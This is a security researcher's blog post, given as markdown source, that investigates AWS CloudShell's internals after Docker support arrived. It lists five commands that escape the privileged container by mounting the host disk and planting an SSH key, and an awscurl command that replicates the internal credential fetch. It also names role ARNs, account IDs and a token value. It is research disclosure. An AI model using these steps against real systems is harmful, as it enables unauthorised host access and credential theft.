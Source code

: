 ```yaml
---
layout: post
title: Deep dive into AWS CloudShell
date: 2024-01-12 08:07:00 +1100
categories: blog
---
```


AWS CloudShell got a [new capability][whats-new] in January 2024: running Docker 
containers. This piqued my curiosity because Docker-in-Docker usually implies
privileged containers, and I have previously used that to [escape CodeBuild][codebuild]
onto the parent EC2 instance. I wanted to know if the same could be done in 
CloudShell - and how its AWS credential system worked (the environment inherits
the user's credentials, unlike CodeBuild). The short answer is "it can be done", 
and this post goes into a) how to do it and b) documenting what I could learn 
about the inner workings of CloudShell.

## Container escape

The CloudShell environment itself runs on a container on an EC2 instance. "Escaping" 
the container is relatively easy because it is a privileged container. These are 
the steps I took:

1. `sudo -i` to start a shell as `root`.
2. `mkdir /host && mount /dev/nvme0n1p1 /host`. This mounts the host EC2 
   filesystem into the `/host` directory of the container. 
3. `ssh-keygen` to generate an SSH keypair.
4. `cat /root/.ssh/id_rsa.pub >> /host/root/.ssh/authorized_keys`
5. `ssh $(uname -n)` to SSH into the host EC2 instance.

## Looking around

Once on the EC2 instance, I was interested to see how the credentials were provided
to the CloudShell environment. The CloudShell environment has the following two
environment variables that determine credential retrieval:

* `AWS_CONTAINER_CREDENTIALS_FULL_URI=http://localhost:1338/latest/meta-data/container/security-credentials`
* `AWS_CONTAINER_AUTHORIZATION_TOKEN=T0yMmQ5cHLbmd15fL45al1bK1Aw/Ty6rNtQ8V4Q/3DM=`

The first env var is the URL that the AWS CLI and SDKs will send a GET request 
to get credentials. The second env var contains the value sent in the `Authorization`
request header during that request. Based on this, we now know there's a program
listening on local port 1338 and vending credentials - we'll use that in our 
search.

### Containers

On the EC2 host, I ran `docker ps` and saw a few containers running. Running 
`docker inspect $cid` on them reveals that they are managed by AWS ECS. The image 
itself is `507722522093.dkr.ecr.ap-southeast-2.amazonaws.com/mde-images:live_base_100`.
I have copied this to [public.ecr.aws/aidansteele/cloudshell:live_base_100][top-image]
if you want to take a look. 

There are two relevant containers, both running the above image. The first is 
the "controller" container, running `/usr/bin/controller` in a few different
"modes". The `/usr/bin/controller -mode credentials` process is the interesting
one that is serving port 1338.

The second container is the "base" container. It is running the same binary, but
in `base-container` mode. This process is parent to `dockerd`. It uses this
Docker-in-Docker to run a different image:
`117854687782.dkr.ecr.ap-southeast-2.amazonaws.com/scallop-customer-image:latest-patched` - 
this image is copied to [public.ecr.aws/aidansteele/cloudshell:scallop-customer-image-latest-patched][inner-image]. 
This is where the CloudShell environment exists, so it's actually 
Docker-in-Docker-in-Docker. Each CloudShell session runs inside a `tmux` session
in this inner container. 

![diagram](/assets/2024-01-12-diagram.png)

### IAM roles

There are a number of roles involved here:

The EC2 instance role has a role session ARN that looks like this:
`arn:aws:sts::624018990330:assumed-role/moontide-ecs-ec2-cluster-moontidedevstandard1micr-1A1CJ1ZR4CHF9/i-01a473779ad5984cc`. 
This role seems to have the `AmazonEC2ContainerServiceforEC2Role` managed policy
and some explicit denies to further narrow it down.

The ECS-managed containers all use the same "ECS task IAM role". Its ARN looks like:
`arn:aws:sts::624018990330:assumed-role/moontide-task-role-control-plane/i-02d8913df95941b0a22cd3726ead75d0`.

There's the ECS task _execution_ IAM role, used for pulling ECR images and pushing
logs to CloudWatch. Its ARN looks like:
`arn:aws:sts::624018990330:assumed-role/moontide-task-execution-role/i-02d8913df95941b0a22cd3726ead75d0`.

The ECS task IAM role is used by the credential server process to retrieve 
credentials from the private control plane API and return them to the CloudShell
environment on-demand. That API is powered by API Gateway and uses SigV4 (IAM)
authentication. If you install `awscurl` into the "controller" container, you 
can replicate the credential-fetching functionality by running this:

```
awscurl \
  --service execute-api \
  --region ${AWS_REGION} \
  ${CALLBACK_SERVICE_ENDPOINT_DNS}/${INSTANCE_ID}/credentials/role
```

### Assorted thoughts

* There seem to be multiple ECS clusters per CloudShell AWS account. There are
  also multiple CloudShell AWS accounts per region. Two principals in my own account
  got mapped to entirely different CloudShell AWS accounts. I wonder what the
  mapping algorithm is.
* The role session name for the "control plane" role looks like a very long EC2
  instance ID. What is it?
* In my (limited) testing, the EC2 instance is always a t3.medium
* The EC2 instance has a public IP address. I guess this saves money on a NAT
  gateway. It has a security group that allows no inbound traffic, though.
* This "moontide" binary makes a few references to Cloud9, so I think maybe
  there is shared heritage there. I haven't looked into Cloud9 to see how
  closely CloudShell reflects it.
* There are references to interesting objects in S3. I can't figure out how to
  access them. I don't know if that's because they're only useful for Cloud9,
  or there is extra functionality I couldn't reverse-engineer.
* AWS does a good job of defence-in-depth. Even though I "escaped" the container,
  their internal API Gateway is locked down to only allow access in legitimate
  scenarios. Many other places wouldn't do that and have a "soft" interior.
* There is a line in the EC2 userdata that looks like it intends to block access
  to the EC2 IMDS from the containers. It doesn't work, but I'm also so weak at
  `iptables` that I can't even suggest a fix.
* Thanks go to [Christophe Tafani-Dereeper][christophe] and [Nick Frichette][nick] 
  for their collaboration on poking at this. It helped a lot bouncing ideas around 
  with them. 

[whats-new]: https://aws.amazon.com/about-aws/whats-new/2024/01/aws-cloudshell-docker-13-regions/
[codebuild]: https://awsteele.com/blog/2022/02/03/aws-vpc-data-exfiltration-using-codebuild.html
[top-image]: https://ima.ge.cx/public.ecr.aws/aidansteele/cloudshell:live_base_100@sha256:4f0e65aee2f0d3efcee5717afb8d559a413dccdc1077ee9ef214d382baecfc8f
[inner-image]: https://ima.ge.cx/public.ecr.aws/aidansteele/cloudshell:scallop-customer-image-latest-patched@sha256:175f1cd92c6c4cf67433742e3fbf44983430d4f24f6c338241fd1569b0bde700
[christophe]: https://twitter.com/christophetd
[nick]: https://frichetten.com/